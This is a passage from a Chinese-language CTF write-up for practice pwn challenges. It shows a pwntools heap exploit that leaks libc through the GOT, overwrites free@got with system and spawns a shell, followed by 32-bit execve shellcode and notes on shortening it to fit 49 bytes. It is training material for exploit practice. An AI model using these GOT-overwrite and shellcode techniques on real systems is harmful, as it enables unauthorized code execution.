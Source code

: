 ```python
write_chunk(2, 0x10, p64(0) + p64(elf.got['puts']))
io.recvuntil(b'OK\n')
delete_chunk(0)
puts = u64(io.recv(6) + b'\x00\x00')
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
write_chunk(2, 0x10, p64(0) + p64(elf.got['free']))
io.recvuntil(b'OK\n')
write_chunk(0, 0x8, p64(sys))
io.recvuntil(b'OK\n')
write_chunk(4, 0x7, b'/bin/sh')
delete_chunk(4)
io.interactive()
```
# buu068-ciscn_2019_s_9
shellcode题，只能写49个字节。（注意fgets函数的特性是最后一个字节一定是零字节。）

我们使用shellcraft.sh()函数查看pwntools为我们生成的shellcode，发现编译成机器码一共有44个字节。注意我们写入的49个字节里面的第36~40个字节是返回地址，不能随意动。
```asm
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
```
上面就是shellcode的汇编代码。我们尝试缩短这段代码的长度。
由于本题中并没有对零字节做出输入的限制，因此我们可以简化下面这两行为``push 0x6873``
```asm
    push 0x1010101
    xor dword ptr [esp], 0x1016972
```
